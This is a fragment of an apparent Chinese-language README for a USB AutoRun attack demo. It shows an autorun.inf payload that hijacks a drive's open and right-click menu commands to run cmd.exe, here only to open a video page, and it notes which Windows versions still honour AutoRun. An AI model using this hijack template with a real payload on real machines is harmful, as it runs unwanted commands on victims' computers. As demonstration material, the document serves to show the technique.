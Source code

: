```ini
;驱动器名称
label=Nothing inside

;攻击Payload，此处为调用cmd打开网页
open=cmd.exe /c "start https://www.bilibili.com/video/BV1uT4y1P7CX"
run=cmd.exe /c "start https://www.bilibili.com/video/BV1uT4y1P7CX"

;劫持右键菜单
shell\open=打开(&O)
shell\open\Command=cmd.exe /c "start https://www.bilibili.com/video/BV1uT4y1P7CX" 
shell\opennewwindow=在新窗口中打开(&E) 
shell\opennewwindow\Command=cmd.exe /c "start https://www.bilibili.com/video/BV1uT4y1P7CX"
```

<img src="https://raw.githubusercontent.com/Push3AX/USBAirborne/main/images/badusb.gif"/>



## 操作系统支持

- AutoRun攻击仅支持Windows系统，且要未完全禁止AutoRun。（Windows7及以上系统默认禁止常见设备开启AutoRun，但允许DRIVE_FIXED CD-ROM设备开启。相关的注册表项目请参考[维基百科](https://en.wikipedia.org/wiki/AutoRun#Registry_settings)）
